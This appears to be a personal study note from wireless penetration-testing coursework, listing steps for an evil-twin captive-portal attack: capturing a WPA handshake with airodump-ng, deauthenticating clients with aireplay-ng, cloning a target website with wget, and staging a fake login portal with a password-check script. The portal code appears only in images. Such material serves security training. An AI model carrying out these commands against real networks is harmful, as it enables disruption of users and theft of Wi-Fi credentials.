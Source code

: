 1) Learn about the target AP
	
2) Capture Handshake
	`# airodump-ng -w discovery --output-format pcap -c <AP_channel> wlan0mon`
	`# aireplay-ng -0 0 -a <bssid> wlan0mon` to deauth a client and force to reconnect
3) Building the captive portal (if the network does not have one, you can create one - apache and php needed)
	`# wget -r -l2 https://www.megacorpone.com` to copy the website.
	`# mkdir /var/www/html/portal`
	Create captive portal login page, creating the file like:
	`/var/www/html/portal/index.php`
	![[Pasted image 20221205135858.png]]
	
4) Also, copy the resources from the website to the captive portal folder:
	`# cp -r ./www.megacorpone.com/assets/ /var/www/html/portal/`
	`# cp -r ./www.megacorpone.com/old-site/ /var/www/html/portal/`
	
	Create then the file to crack the handshake (``/var/www/html/portal/login_check.php`)
	![[Pasted image 20221206144855.png]]
	![[Pasted image 20221206144820.png]]
	